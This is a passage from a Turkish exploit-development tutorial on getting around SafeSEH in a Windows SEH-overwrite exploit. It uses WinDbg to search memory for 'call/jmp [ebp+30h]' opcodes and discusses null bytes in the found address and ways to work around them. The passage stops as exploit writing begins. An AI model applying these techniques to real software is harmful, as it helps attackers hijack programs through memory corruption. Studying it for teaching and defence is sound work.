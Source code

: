 Programı Windbg ile açıp crashi oluşturduktan sonra kullanabileceğimiz aramaya başlayalım. Bu yazıda `ebp+30`'u kullanıyoruz. Öncelikle bunun opcodeunu bulalım.

	0:000> a
	  5353106f call dword ptr[ebp+0x30]
	    call dword ptr[ebp+0x30]
	  53531072 jmp dword ptr[ebp+0x30]
	    jmp dword ptr[ebp+0x30]


	0:000> u 5353106f
	image53530000+0x106f:
	  5353106f ff5530          call    dword ptr [ebp+30h]
	  53531072 ff6530          jmp     dword ptr [ebp+30h]

Şimdi, opcode değerlerimizi bulduk, `ff 55 30` ve `ff 65 30`. Akabinde `s` komutunu kullanarak hafızada arama yapalım.

	0:000> s 0000000 77fffff ff 55 30
	  00270b0b  ff 55 30 00 00 00 00 9e-ff 57 30 00 00 00 00 9e  .U0......W0.....
	0:000> u 00270b0b
	  00270b0b ff5530          call    dword ptr [ebp+30h]
	  00270b0e 0000            add     byte ptr [eax],al
	  00270b10 0000            add     byte ptr [eax],al

**00270b0b** adresinde aradığımız instruction var. Bu adresin nereye ait olduğunu öğrenmek için Immunity yahut Olly debuggerda `ALT+M` kısayolu ile hafızaya bakabilirsiniz. Örneğin:

![](/files/hafizayabakti.png)

Ayrıca, örneğin herhangi bir uzukluktaki tüm değerleri bulmak için opcode içerisindeki 30 olmadan arama yapabilirsiniz. Yine bir örnek vermek gerekirse:

	0:000> s 0000000 77fffff ff 55
      0014c366  ff 55 ca 3a c8 d1 35 6a-e2 03 87 b2 78 f3 48 0b  .U.:..5j....x.H.
      00267643  ff 55 ff 61 ff 54 ff 57-ff dc ff 58 ff cc ff f3  .U.a.T.W...X....
      00270b0b  ff 55 30 00 00 00 00 9e-ff 57 30 00 00 00 00 9e  .U0......W0.....
	0:000> u 00267643
	  00267643 ff55ff          call    dword ptr [ebp-1]
    0:000> u  0014c366
      0014c366 ff55ca          call    dword ptr [ebp-36h]

Fakat bu diğer iki adres bizim işimizi görmüyor, aradığımız değere sahip değil. Mesela örneğin eğer burada `005353xxxx` şeklinde bir değer olsa da işimize yaramayacaktı, lakin bu bizim dosyamızın içinde demek oluyor. Yani **SafeSEH** aktif. Devam edelim, burada karşımıza çıkacak olan tek sorun bulduğumuz adresin null byte içeriyor olması. (00) null byte değeri ayrıca string değerlerini sonlandırdığı için bu demek oluyor biz SEH üzerine yazdıktan sonra shellcodumuzu stacke yazamayacağız, çünkü `strycpy()` bu null byte'ı görecek ve kopyalamanın bittiğini düşünecek. 

Bunun üstesinden bir iki yolla gelmek mümkün. Örneğin eğer shellcodemuzu SEH'i yazmadan önce yazarsak bu sorunu geçebiliriz. Akabinde ileriye atlamak için **jmp** kullanmak yerine geriye atlayan bir **jmp** kullanabiliriz. Veyahut unicode shellcode kullanırsak bu sorunu yine aşabiliriz lakin unicode değerlerinde `00` stringi sonlandırmaz, `00 00` sonlandırır.

Şimdi klasik olarak exploiti yazmaya devam ediyoruz. Bu defa klasik SEH exploitleme işimize yaramayacağı için Next SEH üzerine breakpoint (cc), SE Handler üzerine de bulduğumuz adresi yazalım.
